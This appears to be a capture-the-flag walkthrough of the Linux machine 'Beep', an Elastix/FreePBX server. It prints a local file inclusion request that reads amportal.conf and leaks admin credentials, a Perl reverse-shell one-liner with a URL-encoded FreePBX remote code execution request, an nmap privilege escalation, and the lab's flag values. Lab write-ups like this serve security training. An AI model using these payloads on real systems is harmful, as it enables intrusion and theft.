






### Beep

**OS:** Linux<br>
**Difficulty:** Easy<br>

**Tags:** Web Application, Enterprise Network, Niche Technologies, Protocols, Telecom, Local File Inclusion, Remote Code Execution, PHP, Python

---

#### Exploiting Local File Inclusion

Running an [initial port scan](port_scan.nmap), we found that the target is an Elastix Server. The server brings together services for IP PBX (Asterisk), email (SMTP, IMAP, POP3), and faxing (Hylafax), using a web interface for management and configuration:



Elastix has a [local file inclusion vulnerability](https://www.exploit-db.com/exploits/37637) which can be exploited to read sensitive files on the target system. We exploited this vulnerability to read the Asterisk Management Portal `ammportal.conf` configuration file:

```bash
$ wget 'https://{TARGET IP}/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action' -O amportal.conf --no-check-certificate
```

The [configuration file](amportal.conf) contains hardcoded FreePBX credentials. We try reusing these credentials `admin:jEhdIekWmdjE` and gain access to the Elastix web interface dashboard:



---
 
#### Exploiting Remote Code Execution

FreePBX has a [remote code execution vulnerability](https://www.exploit-db.com/exploits/18650) which we can exploit to get a reverse shell if we have a valid PBX extension. We retrieve a PBX extension (`233`) by visiting the PBX tab in the Elastix web interface dashboard:



Our payload will make the target system connect back to us, giving us a reverse shell:

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"{OUR IP}:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

Next, we open a netcat listener on our computer and send the URL-encoded payload to trigger the reverse shell:

```bash
$ wget --no-check-certificate 'https://{TARGET IP}/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{OUR IP}%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
'  -O /dev/null
```

Now we have a reverse shell in our netcat listener, granting us the ability to execute commands on the target system remotely:



---

#### Privilege Escalation

We open an nmap interactive shell, and use the interactive shell to open a bash shell. Lastly we use the command `/usr/bin/script -qc /bin/bash /dev/null` to stabilize the shell:


---

#### User Flag
> 164b1e17d382522878d9c0984cfa1612

#### Root Flag
> 2b7b3f193a0bcb9810bc9a463dc4f4fd




---